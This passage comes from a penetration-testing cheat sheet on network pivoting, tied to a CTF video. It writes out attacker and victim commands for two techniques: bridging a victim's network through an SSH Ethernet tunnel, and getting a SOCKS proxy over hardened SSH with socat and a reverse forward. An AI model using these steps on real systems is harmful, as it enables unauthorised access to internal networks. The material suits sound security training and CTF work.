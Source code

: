 - [[YouTube] HTB Business CTF 2022: Dirty Money - The Day Before](https://youtu.be/PexfXIrgocA?t=4993)

Allow tunneling in SSH server config on Victim:

```
root@victim:~$ sudo vi /etc/ssh/sshd_config
...uncomment "PermitTunnel = yes"...
root@victim:~$ sudo service sshd restart
```

Connect to Victim building a Ethernet tunnel:

```
snovvcrash@attacker:~$ sudo ssh -oTunnel=ethernet -w0:0 root@192.168.1.11
```

Enable tap interfaces on both ends:

```
root@victim:~$ sudo ip link set tap0 up
snovvcrash@attacker:~$ sudo ip link set tap0 up
```

Put Victim's interface and tap into bridge:

```
root@victim:~$ sudo ip link add br0 type bridge
root@victim:~$ sudo ip link set eth0 master br0
root@victim:~$ sudo ip link set tap0 master br0
root@victim:~$ sudo ip link set br0 up
```

Get an IP address for tap on Attacker:

```
snovvcrash@attacker:~$ sudo dhclient -v tap0
```




## SOCKS over Hardened SSH

- [[YouTube] HTB Business CTF 2022: Dirty Money - The Day Before](https://youtu.be/PexfXIrgocA?t=5528)

With `AllowTcpForwarding` set to `no` it's also possible to establish a SOCKS connection through active SSH connection:

```
snovvcrash@attacker:~$ cat tunnel.sh
ssh alice@victim "./socat TCP-LISTEN:2222,reuseaddr STDIO"
snovvcrash@attacker:~$ socat TCP:localhost:22 EXEC:./tunnel.sh
alive@victim:~$ ssh -R 1080 -p 2222 snovvcrash@attacker
```




## TCP over RDP
